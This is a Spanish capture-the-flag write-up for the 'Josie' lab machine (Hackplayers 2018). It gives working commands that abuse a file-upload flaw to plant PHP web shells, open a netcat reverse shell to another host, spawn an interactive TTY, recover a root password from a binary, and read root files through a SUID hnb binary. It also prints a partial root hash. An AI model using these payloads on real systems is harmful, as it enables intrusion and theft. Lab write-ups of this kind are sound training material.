


# Hackplayers 2018 - Josie

Maquina ‘Josie’ 10.42.0.151

Comenzamos realizando un escaneo con nmap encontramos los siguientes servicios

```
$ nmap -sV 10.42.0.151
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
81/tcp  open  http    Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind 2-4 (RPC #100000)
```

La aplicación tiene bastantes vulnerabilidades, aprovechamos una que nos permite subir archivos para subir una webshell simple `<?php system($_GET[1]) ?>`.



```
$ curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php system($_GET[1]) ?>&src=shell.php'
```

Probamos la webshell

```
$ curl 'http://10.42.0.151/dapur/apps/app_theme/libs/shell.php?1=whoami'
www-data
```

Ahora subimos otra webshell, que nos permita subida de archivos para trabajar subir cualquier archivo grande de forma cómoda. Para ello, podemos utilizar la vulnerabilidad anterior, o el comando echo en la webshell.

```
<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"],
 $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?>
 <form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file">
 <input type="submit" value="Upload"></form>
```

```
curl '10.42.0.151/dapur/apps/app_theme/libs/save_file.php' --data 'content=<?php if(is_uploaded_file(@$_FILES["userfile"]["tmp_name"])) {move_uploaded_file($_FILES["userfile"]["tmp_name"], $_FILES["userfile"]["name"]);echo "Uploaded: <b>".$_FILES["userfile"]["name"]."</b>";}?><form enctype="multipart/form-data" action="" method="post"><input name="userfile" type="file"><input type="submit" value="Upload"></form>
&src=upload.php'
```


Podemos usar la opción “fácil” para hacer una shell reversa de b374k o utilizar la ejecución de comandos con `nc -e /bin/bash 10.42.0.201 8080`

Una vez recibimos la conexión reversa, convertirmos la shell en interactiva.

```
python -c 'import pty;pty.spawn("/bin/bash")'
^Z
stty -icanon -isig -echo;fg;stty sane
```

La flag se encuentra ‘escondida’ en /home/alice/ con el nombre .flag.txt. Al no tener restricción de permisos, la leemos directamente.

```
$ cat .flag.txt
Flag{20ea...}
```

En el home de alice también tenemos un archivo pcap para la prueba de Forense.

Tambien tenemos una prueba con nombre Elevate. Se trata de un binario x86 sin suid que a primera vista nos da la contraseña de root si lo resolvemos.

Para trabajar mejor con el vamos a instalar [gdb-peda](https://github.com/longld/peda), como no tenemos acceso directo a internet en la máquina, decargamos el repositorio en /tmp/www-data

```
cd /tmp/www-data
export HOME=/tmp/www-data
echo "source ~/peda/peda.py" >> ~/.gdbinit
gdb /home/alice/Elevate/root
```

Analizando el binario, se obtiene una de las soluciones posibles.

```
$ echo ArtVFqs28tXhd | ./root z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z z A
```

Al parecer esto no sirve para nada realmente útil, ya que no es la contraseña de ningún usuario del sistema.

## Actualización

La solución correcta se obtenía utilizando el carácter ‘1’ 81 veces. Observando que strcat añade la letra Q al texto introducido. Obteniendo la contraseña de root ArtVFqs28tXhdQ.

```
$ echo ArtVFqs28tXhd | ltrace ./root $(python -c 'print "1 "*81')
...
strcat("ArtVFqs28tXhd", "Q\001") = "ArtVFqs28tXhdQ\001"
strcmp("ArtVFqs28tXhdQ\001", "ArtVFqs28tXhdQ\001")
puts("Congratz! You know now the password.")
```

## PrivEsc

Pasamos a analizar vulnerabilidades en el sistema que nos permitan escalar privilegios. Para ello se utiliza [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py)

```
[+] SUID/SGID Files and Directories
    -rwsrwxrwx 1 root root 160164 Jul 13  2013 /usr/bin/hnb
```

```
www-data@Josie:/$ hnb -ui cli -a /root/flag.txt
hnb - hierarchical notebook   http://hnb.sourceforge.net/
ascii import, imported "/root/flag.txt"
Welcome to hnb 1.9.18
type ? or help for more information
/>ls
flag{14ui...}  < 
```



También podemos utilizar hnb para leer el hash de root, y posiblemente modificarlo para poder escalar privilegios. `root:$6$pyY9Sms.$1LBD1lxwIDbuZztQOCgv7hMDyO2zzVCHWrAMRhR8UmfEAaZYcDVmpQ08GsIFywGrQKQU3Bswn6`

